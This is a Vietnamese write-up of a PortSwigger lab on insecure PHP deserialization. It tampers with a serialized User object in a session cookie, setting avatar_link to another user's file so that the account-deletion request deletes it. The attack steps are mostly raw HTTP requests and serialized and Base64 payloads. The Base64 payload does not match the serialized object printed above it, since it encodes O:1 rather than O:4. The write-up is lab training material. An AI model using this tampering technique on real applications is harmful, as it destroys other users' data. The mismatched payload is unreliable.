

# Write-up: Using application functionality to exploit insecure deserialization

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa đối tượng serialized `User` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách sửa đổi thuộc tính `avatar_link` trong đối tượng serialized thành `/home/carlos/morale.txt`, kẻ tấn công tận dụng chức năng xóa tài khoản (`POST /my-account/delete`) để xóa tệp, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sửa đổi đối tượng `User` serialized trong cookie `session`, đặt `avatar_link` thành `/home/carlos/morale.txt`, và sử dụng chức năng xóa tài khoản để xóa tệp, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và vào `/my-account`, chọn chức năng **Delete account**. 
     
     
      
- Quan sát request trong Burp Proxy:  
  ```
  POST /my-account/delete HTTP/2
  Host: 0a9i007h08ij9012d0ef067800gh00ed.web-security-academy.net
  Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=
  ```  
- **Phân tích cookie**:  
  - Cookie `session` chứa dữ liệu Base64, giải mã ra đối tượng serialized:  
    ```php
    O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"uppsgs530zrjrw3vxqrndh23tnvem34v";s:11:"avatar_link";s:19:"users/wiener/avatar";}
    ```  
    
      
  - Chức năng xóa tài khoản (`POST /my-account/delete`) sử dụng `avatar_link` (`users/wiener/avatar`) để xóa tệp avatar của tài khoản.  
  
  - Vì cookie được unserialize mà không kiểm tra tính toàn vẹn, attacker có thể sửa `avatar_link` để xóa tệp tùy ý:  

2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Sửa thuộc tính `avatar_link` trong đối tượng `User` thành `/home/carlos/morale.txt`.  
  - Khi gửi request `POST /my-account/delete`, server unserialize cookie, lấy `avatar_link` và xóa tệp `/home/carlos/morale.txt`.  
- **Payload**:  
  ```php
  O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"uppsgs530zrjrw3vxqrndh23tnvem34v";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
  ```  
- **Giải thích payload**:  
  - Giữ nguyên `username` và `access_token` để request hợp lệ.  
  - Sửa `avatar_link` thành `/home/carlos/morale.txt` để chức năng xóa tài khoản xóa tệp này:

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```
  TzoxOiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
  ```  
  
- Trong Burp Repeater, gửi request:  
  ```
  POST /my-account/delete HTTP/2
  Host: 0a9i007h08ij9012d0ef067800gh00ed.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
  ```  
  
- Server unserialize cookie, lấy `avatar_link` và xóa tệp `/home/carlos/morale.txt`:  
    
- **Ý tưởng payload**:  
  - Sửa `avatar_link` trong đối tượng `User` serialized thành `/home/carlos/morale.txt`, tận dụng chức năng xóa tài khoản để xóa tệp.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
      

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách sửa đổi đối tượng `User` serialized, tận dụng chức năng ứng dụng (xóa tài khoản) để thực thi lệnh xóa tệp.  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP bằng cách lợi dụng chức năng ứng dụng, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized và kiểm tra đầu vào để ngăn chặn thực thi lệnh tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*